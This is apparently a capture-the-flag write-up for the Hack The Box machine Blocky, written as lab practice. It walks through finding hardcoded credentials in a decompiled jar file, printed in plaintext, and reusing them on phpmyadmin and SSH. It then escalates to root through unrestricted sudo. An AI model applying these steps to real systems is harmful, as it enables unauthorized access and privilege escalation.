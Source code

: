 After some fuzzing we found two interesting sites, http://blocky.htb/plugins and http://blocky.htb/phpmyadmin.

In the plugins website we found two jar files and after open them with the java decompiler (`jd-gui`) we found in BlockyCore class a credentials root:8YsqfCTnvxAUeduzjNSXe22

![[Pasted image 20231105141118.png]]

These credentials work in phpmyadmin, and looking for some useful info in the phpmyadmin db we found the wordpress user 

![[Pasted image 20231105141228.png]]

The phpmyadmin credentials found doesnt work in the wp-admin wordpress login, so we ssh with notch:8YsqfCTnvxAUeduzjNSXe22 and we are in

```bash
┌──(kali㉿kali)-[~/…/Boxes/Blocky-10.10.10.37/jar-files/griefprevention]
└─$ ssh notch@10.10.10.37        
[...SNIP...]
notch@Blocky:~$ whoami
notch
notch@Blocky:~$ sudo -l
[sudo] password for notch: 
Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
notch@Blocky:~$ sudo su
root@Blocky:/home/notch# whoami
root
```
